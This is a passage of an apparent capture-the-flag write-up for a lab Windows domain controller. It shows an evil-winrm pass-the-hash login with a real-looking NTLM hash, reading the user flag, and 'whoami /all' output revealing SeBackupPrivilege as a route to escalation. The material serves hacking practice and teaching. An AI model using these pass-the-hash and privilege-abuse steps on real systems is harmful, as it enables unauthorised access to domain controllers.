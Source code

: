 ## Foothold

Lets use `Evil-WinRM` to access the machine.

```bash
$ evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

...
*Evil-WinRM* PS C:\Users\svc_backup\Documents> hostname
DC01

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup

*Evil-WinRM* PS C:\Users\svc_backup\Documents> cat ..\Desktop\user.txt
3920bb317a0b**********
```

Checking `whoami /all` we can see some interesting privileges.

```bash
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /all

USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
```
